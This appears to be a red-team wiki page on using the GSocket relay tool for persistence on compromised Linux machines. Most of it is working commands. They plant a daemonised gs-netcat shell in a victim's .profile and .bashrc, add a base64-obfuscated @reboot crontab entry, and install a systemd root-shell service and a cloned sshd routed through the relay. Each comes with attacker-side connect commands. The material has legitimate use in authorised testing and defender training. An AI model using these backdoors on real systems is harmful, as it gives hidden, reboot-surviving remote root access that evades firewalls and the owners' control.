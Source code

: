 ```yaml
---
description: MITRE ATT&CK™ Persistence - Tactic TA0003
---
```


# GSocket for Persistence

## Theory

[**GSocket**](https://github.com/hackerschoice/gsocket) is a networking utility designed to facilitate secure and transparent TCP connections between hosts, even when they are behind Network Address Translation (NAT) devices or firewalls. It achieves this by leveraging the **Global Socket Relay Network (GSRN)**, enabling seamless and encrypted communication without requiring direct IP address visibility.

**Key Features**:

* **Firewall and NAT Traversal**: GSocket allows connections between hosts without modifying firewall settings, making it ideal for environments with strict network controls.
* **End-to-End Encryption**: Utilizing OpenSSL's Secure Remote Password (SRP) protocol, GSocket ensures that all data transmitted between hosts is securely encrypted.  GSRN acts as an intermediary, forwarding encrypted traffic between endpoints.
* **No Fixed IPs**: Instead of a known destination address, each peer connects to GSRN and advertises itself using a **cryptographic identifier derived from the shared password**. Two machines using the same password can **automatically find each other** via GSRN, even if their IP addresses change.

These features make **GSocket** a powerful tool for establishing resilient persistence on compromised endpoints.

## Practice

{% hint style="success" %}
You can directly generate secrets using the `gsocket -g` command
{% endhint %}

{% tabs %}
{% tab title="Persistence Script" %}
We may creates a **persistence script** that launches **GSocket** and provides a bind shell. The script can be placed in **user profile scripts** (`.bashrc`, `.profile`) or **cron jobs** for execution at login or system boot.

On the target machine, we can use following commands:

```bash
# Simple Persistence Command for reverse shell over GSRN
# gs-netcat
# -s: Secret (password)
# -l: listening mode
# -q: Quiet mode
# -D: Deamon & Watchdog mode
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleSecretChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)

# We can append this command to user profile scripts
echo 'killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleSecretChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)' >> /home/targetUser/.profile
echo 'killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleSecretChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)' >> /home/targetUser/.bashrc

# Alternatively base64 this payload and insert it into crontab
(crontab -l 2>/dev/null; echo "@reboot bash -c 'eval \$(echo a2lsbGFsbCAtMCBncy1uZXRjYXQgMi4vZGV2L251bGwgfHwgKEdTT0NLRVRfQVJHUz0iLXMgRXhhbXBsZVNlY3JldENoYW5nZU1lIC1saXFEIiBTSEVM... | base64 -d)'" ) | crontab -
```

We can now connect to the shell from our attacking box as follows:

```bash
# -s: Secret (password)
# -i: Interactive shell
# -T: Connect via TOR
gs-netcat -s ExampleSecretChangeMe -i
```
{% endtab %}

{% tab title="Systemd Persistence" %}
We may use GSocket as a systemd service, ensuring it automatically starts upon reboot, and provide us a persistent backdoor access.

On the victime, create _`/etc/systemd/system/gs-root-shell.service`_:

{% hint style="info" %}
`-k`: is too read the secret from file.

Replave with `-s "MyPassword"` to directly provide the secret.&#x20;
{% endhint %}

```systemd
[Unit]
Description=Global Socket Root Shell
After=network.target

[Service]
Type=simple
Restart=always
RestartSec=10
WorkingDirectory=/root
ExecStart=gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il

[Install]
WantedBy=multi-user.target
```

On the target we can now start and enable the service

```bash
# Start service
systemctl start gs-root-shell

# Enable it
systemctl enable gs-root-shell
```

We can now connect to the target from our attacking machine as follows:

```bash
gs-netcat -s ExampleSecretChangeMe -i
```
{% endtab %}

{% tab title="SSH-Based Persistence" %}
We can utilize GSocket along with SSHd to seamlessly route SSH traffic through the Global Socket Relay Network, and gain persistent access.

{% hint style="info" %}
Simple POC, that you may  addapt:&#x20;

```bash
# On target
gsocket -s ExampleSecretChangeMe /usr/sbin/sshd -D

# On attacking box
gsocket -s ExampleSecretChangeMe ssh user@target.com
```
{% endhint %}

Let's create a new SSHd service that will this time run over GSRN. On victime:

```bash
# Copy SSHd Service File (as root)
cp /etc/systemd/system/sshd.service /etc/systemd/system/gs-sshd.service
chmod 600 /etc/systemd/system/gs-sshd.service

# Edit the ExecStart option
sed -i 's|ExecStart=/usr/sbin/sshd -D $SSHD_OPTS|ExecStart=gs -s ExampleSecretChangeMe /usr/sbin/sshd -D $SSHD_OPTS|' /etc/systemd/system/gs-sshd.service

# Enable service
systemctl start gs-sshd
systemctl enable gs-sshd
```

We can now access our SSH server as follows from our attacking machine

```bash
gsocket -s ExampleSecretChangeMe ssh user@target.com
```
{% endtab %}
{% endtabs %}





## Resources

{% embed url="https://github.com/hackerschoice/gsocket" %}

{% embed url="https://www.gsocket.io/" %}
